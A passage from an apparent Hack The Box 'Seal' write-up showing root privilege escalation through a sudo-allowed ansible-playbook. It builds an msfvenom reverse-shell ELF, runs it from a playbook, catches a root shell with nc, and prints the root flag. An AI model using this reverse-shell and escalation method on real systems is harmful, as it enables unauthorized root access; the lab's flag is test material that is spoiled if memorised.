 Meaning that we can create our playbook to execute shell as root.

First, Let's ```msfvenom``` payload for linux:
```console
┌─[evyatar@parrot]─[/hackthebox/Seal]
└──╼ $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4242 -f elf > reverse.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Next, Copy that using ```nc``` to ```/home/luis/```, Create the following playbook:
```yaml
- hosts: localhost

  tasks:
  - name: Reverse shell as root
    command: /home/luis/reverse.elf
```

Listen to port 4242 using ```nc```:
```console
┌─[evyatar@parrot]─[/hackthebox/Seal]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
```

Run the playbook as root:
```console
luis@seal:~$ sudo /usr/bin/ansible-playbook rev-playbook.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] *****************************************************************************************************************************************************************************

TASK [Gathering Facts] ***********************************************************************************************************************************************************************
ok: [localhost]

TASK [Reverse shell as root] *****************************************************************************************************************************************************************

```

Get shell:
```console
listening on [any] 4242 ...
connect to [10.10.16.227] from seal.htb [10.10.10.250] 57546
whoami
root
cat /root/root.txt
0dd41be6d3f326e5b57ff32924ec923d
```

And we get the root flag ```0dd41be6d3f326e5b57ff32924ec923d```.
